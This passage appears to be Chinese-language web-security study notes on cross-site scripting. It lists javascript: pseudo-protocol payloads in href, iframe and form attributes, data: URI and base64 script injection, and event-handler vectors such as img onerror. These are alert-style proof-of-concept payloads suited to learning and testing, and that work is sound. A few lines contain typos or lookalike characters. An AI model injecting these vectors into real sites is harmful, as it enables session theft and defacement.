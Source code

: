     - 在属性值中使用javascript伪协议：
    
        - **可以通过[xss cheet sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#protocols)查看哪些属性支持js伪协议。**
    
        - 一般的输入url的属性是可以传入js伪协议的。
    
            - **为防恶意代码注入，一些新版本的浏览器已经禁用src属性的JavaScript伪协议，所以img标签的src属性不能用了，background这个属性也不能用了**。
    
            - 在`<a href="">`，`<iframe src="" >`，`<form action="" >`等可以使用
    
            - 可以使用多行js语句，但是需要`;`分隔。
            ```html
            <a href="javascript:var now = new Date(); '<h1>The time is:</h1>' + now;">hello</a>
            <a href=javascript:eval(alert('xss'))>aa</a> 
            
            <iframe src=javascript:alert('xss')><iframe> 
            
            <form action=javascript:alert('xss')> 
            <form action=javascript:alert('xss') method="get"> <form action=javascript:alert('xss')> 
            
            ```
            
            - 在url中还可以使用其他的伪协议：比如`data`
            
            - data协议支持以下2种类型：
            
                ```html
                data:text/html,HTML代码
                data:text/html;base64,base64编码的HTML代码
                ```
            
            - 会使用html解析器去执行该html代码。
            
                ```html
                <iframe src="data:text/html,<script>alert('xss')</script>"></iframe> 
                <iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
                <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
                
                <form method=post action="data:text/html;base64,<script>alert('xss')</script>">
                <form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
                ```
    
    - **在html标签内通过事件来调用js代码：**
    
        - [事件参考手册]（https://www.w3school.com.cn/tags/html_ref_eventattributes.asp）
    
        - `<img>标签`,`<video>标签`等
    
            ```html
            <img src=1 onerror=alert('hack');alert(2)>
            <!--多行js语句使用;分隔，而且可以加或者不加引号包裹js代码-->
            
            <a 		href="" 				onclick=eval(alert('xss'))>aa</a> 
            <input 	value="" 				onclick=alert('xss') type="text"> 
            <input 	name="name" value="" 	onmouseover=prompt('xss') bad=""> 
            <iframe src="aaa" 				onmouseover=alert('xss') /><iframe> 
            <style 							οnlοad=alert(1)></style>
            <body 							οnlοad=alert(1)>
            <form action=1 					onmouseover=alert('xss)> 
            ```
    